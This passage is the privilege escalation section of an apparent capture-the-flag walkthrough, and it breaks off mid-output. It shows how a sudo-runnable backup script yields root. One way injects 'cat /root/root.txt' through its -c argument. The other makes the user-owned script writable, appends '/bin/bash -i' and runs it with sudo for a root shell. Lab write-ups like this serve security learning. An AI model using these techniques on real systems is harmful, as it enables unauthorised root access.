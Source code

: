 ## PRIVESC

1. There are multiple ways to exploit the above path to get root. Let's discuss a few.
   1. Intended ones.
      1. Pass the `root.txt` file to be read with sudo permissions as `-c` argument. This is the easiest path and shows your *static code analysis* skills.

      ```bash
      $ sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"
      /home/alex/Music/image12.mp3
      /home/alex/Music/image7.mp3
      /home/alex/Music/image1.mp3
      /home/alex/Music/image10.mp3
      /home/alex/Music/image5.mp3
      /home/alex/Music/image4.mp3
      /home/alex/Music/image3.mp3
      /home/alex/Music/image6.mp3
      /home/alex/Music/image8.mp3
      /home/alex/Music/image9.mp3
      /home/alex/Music/image11.mp3
      /home/alex/Music/image2.mp3
      find: ‘/run/user/108/gvfs’: Permission denied
      Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

      tar: Removing leading `/' from member names
      tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
      tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
      tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
      tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
      tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
      tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
      tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
      tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
      tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
      tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
      tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
      tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
      tar: Exiting with failure status due to previous errors

      Backup finished
      flag{*******************************************************}
      ```
   2. Unintended ways - Tasty Treats
      1. Edit the file by adding the `write permissions`. Now we can either directly run commands or call out a reverse shell to our box.
      
      ```bash
      alex@ubuntu:/etc/mp3backups$ ls -la
      total 24
      drwxr-xr-x   2 root root  4096 Dec 30  2020 .
      drwxr-xr-x 133 root root 12288 Dec 31  2020 ..
      -rw-r--r--   1 root root     0 Nov  5 05:53 backed_up_files.txt
      -r-xr-xr--   1 alex alex  1083 Dec 30  2020 backup.sh
      -rw-r--r--   1 root root    45 Nov  5 05:52 ubuntu-scheduled.tgz
      alex@ubuntu:/etc/mp3backups$ chmod +w backup.sh 
      alex@ubuntu:/etc/mp3backups$ echo "/bin/bash -i" >> backup.sh 
      alex@ubuntu:/etc/mp3backups$ sudo /etc/mp3backups/backup.sh
      /home/alex/Music/image12.mp3
      /home/alex/Music/image7.mp3
      /home/alex/Music/image1.mp3
      /home/alex/Music/image10.mp3
      /home/alex/Music/image5.mp3